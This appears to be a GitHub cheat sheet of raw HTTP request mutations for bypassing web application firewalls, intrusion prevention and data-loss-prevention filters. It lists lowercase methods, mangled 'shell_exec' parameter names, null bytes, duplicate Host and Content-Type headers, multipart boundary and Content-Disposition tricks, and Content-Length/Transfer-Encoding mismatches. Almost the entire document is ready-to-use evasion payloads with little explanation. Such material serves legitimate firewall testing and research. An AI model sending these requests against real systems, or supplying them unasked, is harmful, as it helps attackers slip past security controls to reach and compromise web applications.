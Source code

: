 # WAF/IPS/DLP bypass Cheat Sheet
Another way to bypass

**Add \r\n before the first line HTTP request**  

```

GET /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```


**Writing the method with a lowercase (Apache)**
```
get /login HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Tabs before the method (IIS)**
```
    GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**GET /login?shell_exec HTTP/1.1**
```
GET /login?shell.exec HTTP/1.1
GET /login?shell[exec HTTP/1.1
GET /login?shell%5bexec HTTP/1.1
GET /login?shell%2eexec HTTP/1.1
GET /login?shell%5fexec HTTP/1.1
GET /login?shell%20exec HTTP/1.1
```

**GET /login.php?pam_param=test3**
```
GET /login.php?pam_param=test1&pam[param=test2&pam%5bparam=test3
```

**GET /login.php?hello=world HTTP/1.1**
```
GET /login.php?hello%00another_text=world HTTP/1.1
```

**HTTP Request - absoluteURI**
```
GET http://localhost/login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Double host header**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
Host: localhost
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host with lowercase**
```
GET /login.php HTTP/1.1
host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Host without space**
```
GET /login.php HTTP/1.1
Host:favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with tab**
```
GET /login.php HTTP/1.1
Host:	favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```
**Host with addition symbols**

/
:
\x00
\x20
\x09
\xad (IIS)

Example:
```
GET /login.php HTTP/1.1
Host: favoritewaf.com:12345
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

```
GET /login.php HTTP/1.1
Host: favoritewaf.com ignored.text
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
```

**Content-Type with another text** 
```
POST /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Type: application/another-text/+++x-www-form-urlencoded

hello=world
```

**HTTP request with incorrect Content-Length (more data than specified)**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Content-Length: 1

AAAAAAAA
```

**Double Content-Type**
```
Content-Type: multipart/form-data; boundary=ZZZ
Content-Type: multipart/form-data; boundary=AAA
```

**Content-Disposition mutation**
```
GET /login.php HTTP/1.1
Host: favoritewaf.com
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=--------1218108630

----------1218108630
Content-Disposition: form-data; name="hello"

world
----------1218108630--
```

```
Content-Disposition: form-data; name="hello"
Content-Disposition: form-data; name="hello
Content-Disposition: form-data; name="hello"world"
Content-Disposition: attachment; name="hello"
```


```
Content-Type: multipart/form-data; boundary=x


--x
Content-Disposition:
test1;
--x
test2;
--x--
test3;
name="hello"

world
```
**Boundary mutation**
**PHP**

```
Content-Type: multipart/form-data; myfavoriteboundaryis=X; boundary=Hello;
==
Content-Type: multipart/form-data; boundary=X;
```


**Nullbyte**
```
Content-Type: multipart/form-data; boundary=HELLO\x00XXXXXXXXX
==
Content-Type: multipart/form-data; boundary=HELLO
```

**Ignored Content-Length**
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

hello=world
```

==
```
Content-Length: 22
Transfer-Encoding: chunked

0B
hello=world
0

```

==
```
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Transfer-Encoding: chunked

3
hel
3
lo=
3
wor
2
ld
0
```
